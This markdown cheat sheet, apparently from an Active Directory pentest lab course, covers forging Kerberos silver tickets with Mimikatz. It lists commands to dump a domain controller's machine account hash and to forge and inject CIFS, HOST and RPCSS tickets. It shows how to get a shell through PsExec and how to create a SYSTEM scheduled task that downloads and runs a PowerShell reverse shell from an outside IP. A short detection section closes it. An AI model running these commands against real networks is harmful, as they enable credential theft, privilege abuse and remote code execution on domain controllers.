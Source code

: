 # Silver Tickets

## General

- A valid TGS
- Encrypted and signed by NTLM hash of the target service account
- Services rarely check PAC (Privileged Attribute Certificate)
- Services will allow access only to the services themselves
- Reasonable persistence period (detauled 30 days for computer accounts)

## Exploitation

### Arguments

| Argument | Description |
| --- | --- |
| kerberos::golden | Name of the module (there is no Silver module!) |
| /domain:domain:dollarcorp.moneycorp.local | Domain FQDN |
| /sid:S-1-5-21-1874506631-3219952063-538504511 | SID of the domain |
| /target:dcorp dc.dollarcorp.moneycorp.local | Target server FQDN |
| /User:Administrator | Username for which the TGT is generated |
| /id:500 /groups:512 | Optional User RID (default 500) and Group (default 513 512 520 518 519) |
| /service:cifs | The SPN name of the target service for the TGS |
| /rc4:6f5b5acaf7433b3282ac22e21e62ff22 | NTLM (RC4) hash of the service/machine account (<MACHINE-NAME$>). Use /aes128 and /aes256 for using AES keys. |
| /startoffset:0 | Optional when the ticket is available (default 0 right now) in minutes. Use negative for a ticket available from past and a larger number for future. |
| /endin:600 | Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes |
| /renewmax:10080 | Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 |
| /ptt | Injects the ticket in current PowerShell process no need to save the ticket on disk |

### Commands

```powershell
# Check Kerberos ticket policy using PowerView
(Get-DomainPolicy -Domain lab.local)."Kerberos Policy"

# Execute mimikatz on DC as DA to get dcorp-dc$ (machine account) hash
Invoke-Mimikatz -Command '"lsadump::lsa /patch /user:dcorp-dc$"' -ComputerName "dcorp-dc"

# Using hash of the DC computer account, below command provides access to shares on the DC
# Similar command can be used for any other service on a machine
# Example services: HOST, RPCSS, WSMAN
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /user:Administrator /service:CIFS /rc4:d32ef7a25657da14a143e0185488a1a3 /ptt"'

# Use proper values from kerberos policy and AES keys to be stealthier
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /user:Administrator /service:CIFS /rc4:d32ef7a25657da14a143e0185488a1a3 /aes128:AES128KEY /aes256:AES256KEY /ptt"'

# Get shell through PsExec
.\PsExec.exe -AcceptEULA \\dcorp-dc.dollarcorp.moneycorp.local cmd
```

## Getting Command Execution

### Scheduled Tasks through HOST Service

```powershell
# Create silver ticket for the HOST SPN which will allow us to schedule a task on the target
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /user:Administrator /service:HOST /rc4:d32ef7a25657da14a143e0185488a1a3 /ptt"'

# Create scheduled task
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.72/Invoke-PowerShellTcp.ps1''')'"

# Run task on the target
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"

# Clean Up
schtasks /delete /tn "STCheck" /s dcorp-dc.dollarcorp.moneycorp.local /f
```

### WMI

```powershell
# Create two tickets - one for HOST service and another for RPCSS
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /user:Administrator /service:HOST /rc4:d32ef7a25657da14a143e0185488a1a3 /ptt"'
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /user:Administrator /service:RPCSS /rc4:d32ef7a25657da14a143e0185488a1a3 /ptt"'

# Run WMI commands on DC
Get-WmiObject -Class win32_operatingsystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

## Detection

- Event IDs:
  - 4624: Account Logon
  - 4634: Account Logoff
  - 4672: Admin Logon

```powershell
Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List -Property *
```
